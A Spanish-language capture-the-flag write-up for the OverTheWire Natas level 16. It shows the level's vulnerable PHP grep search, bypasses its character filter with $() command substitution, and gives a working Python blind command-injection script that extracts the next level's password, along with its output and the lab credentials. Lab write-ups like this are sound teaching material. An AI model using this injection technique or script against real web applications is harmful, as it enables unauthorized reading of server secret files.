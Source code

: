 #Natas Level 15 → Level 16

Username: natas16

URL:      http://natas16.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas16.natas.labs.overthewire.org** 
- **Usuario    : natas16**
- **Contraseña : WaIHEacj63wnNIBROHeqi3p9t0m5nhmh**

La contraseña la hemos sacado del nivel anterior.

Entramos en la página web y nos muestra un mensaje parecido a la prueba anterior indicando que se han filtrado incluso más caracteres que en la prueba anterior.

```html
For security reasons, we now filter even more on certain characters

Find words containing: 
Search

Output:
```

Encontramos un campo de texto donde podemos buscar palabras dentro de un fichero, al igual que hicimos en alguna prueba anterior.

Antes de meternos en harina, vamos a mirar el código fuente y ver que han podido cambiar.

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) 
{
    $key = $_REQUEST["needle"];
}

if($key != "") 
{
    if(preg_match('/[;|&`\'"]/',$key)) 
    {
        print "Input contains an illegal character!";
    } else 
    {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```

Vamos a comparar con la prueba nº 10 de Natas en la que también filtraban los caracteres:

Natas10
```php
if(preg_match('/[;|&]/',$key))
```
Natas16
```php
if(preg_match('/[;|&`\'"]/',$key)) 
```

Al igual que en la prueba Natas10 intentamos poner la mascara Wildcard(.*) y vemos que nos devuelve el contenido de todo el fichero.

Intentamos hacer el mismo truco poniendo el siguiente comando, pero no nos funciona.

```bash
.* /etc/natas_webpass/natas17
```

Tenemos que intentar otra cosa. Vamos a analizar que caracteres filtra y podríamos sacar provecho de lo que no filtra.

Filtra los valores ```bash (;, |, &, `, ', ")``` pero no los valores **$** y **()** entre otros. 

Investigando un poco por internet nos encontramos un comando o truco en bash que nos puede servir de ayuda.

El siguiente comando
```bash 
`cat /etc/natas_webpass/natas17`
```
es lo mismo que 

```bash 
$(cat /etc/natas_webpass/natas17)
```

Nos fijamos que no utilizamos ningún caracter prohibido de la lista que han bloqueado y podemos obtener los mismos resultados. 

Bien, hemos pasado el primer filtro y ahora tenemos que montar la consulta para que nos muestre la contraseña del siguiente nivel.

Esta prueba es muy parecida a la del nivel anterior, ya que tenemos que ver si la búsqueda nos da algún resultado o no. 

Tenemos que conseguir la consulta que realizaremos sea parecida a esta:

```bash
grep -i $(grep -E ^a.* /etc/natas_webpass/natas17)treasure dictionary.txt
```

NOTA: Para llegar a este punto he tenido que preguntar en el foro ya que no sabía como seguir :smile:

Lo que vamos a intentar es ver si el principio del password del fichero **/etc/natas_webpass/natas17** coincide con la letra que vamos a buscar **^a.** con **grep** y añadiendole una palabra que si existe en el diccionario. Dicho así suena muy raro pero tiene su lógica.

Por ejemplo, vamos a ver si la password del fichero **natas17** empiezacon con la letra **a**. Si la contraseña no empieza por la letra **a** el resultado de la consulta **$(grep -E ^a.* /etc/natas_webpass/natas17)treasure** será un campo vacío ya que no habrá encontrado ninguna coincidencia:

```bash
$(grep -E ^a.* /etc/natas_webpass/natas17)treasure
<campoVacio>+treasure
Buscaremos la palabra "treasure" en el diccionario
```

Si la palabra existe en el diccionario, nos devolverá un mensaje en el output indicando que **treasure** si se encuentra en el **dictionary.txt**

Ahora por el contrario encontramos que la primera letra del password del fichero nata17 coincide con alguna que hayamos puesto, el resultado sería una concatenación de ambas palabras y por lo tanto se le añadiría a la palabra treasure, haciendo que el resultado no de ningún output.

```bash
$(grep -E ^8.* /etc/natas_webpass/natas17)treasure
8+treasure
Buscaremos la palabra "8treasure" en el diccionario
```

Aquí he utilizado el número **8** que sí está como primera letra del password del fichero. Como podéis ver, el resultado es positivo y nos devolverá el string **8treasure**.

Si buscamos ese término en el campo de búsqueda, no nos saldrá ningún resultado ya que no existe esa palabra. 

¡BIEN! Ahora ya sabemos que si el campo **output** muestra el mensaje **treasure** es porque la letra que buscábamos en el password no existe y por lo tanto no vale. Si por el contrario no recibimos ningún **output** es porque ha encontrado una letra en el fichero de password, la ha concatenado a la nuestra y al realizar la búsqueda no ha mostrado ningún resultado.

Es un poco alrevesado, lo sé :smile:

Bueno, ya que haciendolo a mano tardaríamos una eternidad, vamos a coger el código del nivel anterior y vamos a cambiar los parámetros para que nos devuelva la contraseña.

Lo llamaremos **blindNatas16Injection.py**

```python
import httplib2
import urllib
import time


h = httplib2.Http()
h.add_credentials('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')

passTemporal        = "";
letras              = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
posicion            = 0

letraPassExiste     = 0
letraPassNoExiste   = 0


while posicion < len(letras):
        # grep -i $(grep -E ^a.* /etc/natas_webpass/natas17)Africans dictionary.txt <- Como quedaria la consulta final
        query = urllib.urlencode(dict(needle="$(grep -E ^" + passTemporal + letras[posicion] + ".* /etc/natas_webpass/natas17)treasure"))
        resp, contenido = h.request("http://natas16.natas.labs.overthewire.org/index.php?" + query, method="GET")
        if ("treasure" not in str(contenido)):
                passTemporal += letras[posicion];
                print("Nueva password encontrada: " + passTemporal)
                posicion = 0
                letraPassExiste +=1
                if (len(passTemporal)==32):
                        break;
                continue
        else: 
                letraPassNoExiste +=1
        posicion += 1

print "-"*70
print "Pruebas Erroneas       = {0}".format(letraPassNoExiste)
print "Pruebas Satisfactorias = {0}".format(letraPassExiste)        
print "-"*70
print "Password Natas17 = {0}".format(passTemporal)
print "-"*70
```

Lo ejecutamos y esperamos a que nos devuelva la contraseña para el nivel **Nata17** :smile:

```bash
ikerburguera@:~/Desktop$ python blindNatas16Injection.py 
Nueva password encontrada: 8
Nueva password encontrada: 8P
Nueva password encontrada: 8Ps
Nueva password encontrada: 8Ps3
Nueva password encontrada: 8Ps3H
Nueva password encontrada: 8Ps3H0
Nueva password encontrada: 8Ps3H0G
Nueva password encontrada: 8Ps3H0GW
Nueva password encontrada: 8Ps3H0GWb
Nueva password encontrada: 8Ps3H0GWbn
Nueva password encontrada: 8Ps3H0GWbn5
Nueva password encontrada: 8Ps3H0GWbn5r
Nueva password encontrada: 8Ps3H0GWbn5rd
Nueva password encontrada: 8Ps3H0GWbn5rd9
Nueva password encontrada: 8Ps3H0GWbn5rd9S
Nueva password encontrada: 8Ps3H0GWbn5rd9S7
Nueva password encontrada: 8Ps3H0GWbn5rd9S7G
Nueva password encontrada: 8Ps3H0GWbn5rd9S7Gm
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmA
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAd
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdg
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQ
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQN
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQNd
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQNdk
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQNdkh
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQNdkhP
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPk
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
----------------------------------------------------------------------
Pruebas Erroneas       = 926
Pruebas Satisfactorias = 32
----------------------------------------------------------------------
Password Natas17 = 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
----------------------------------------------------------------------
```

**FLAG** = {8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw}





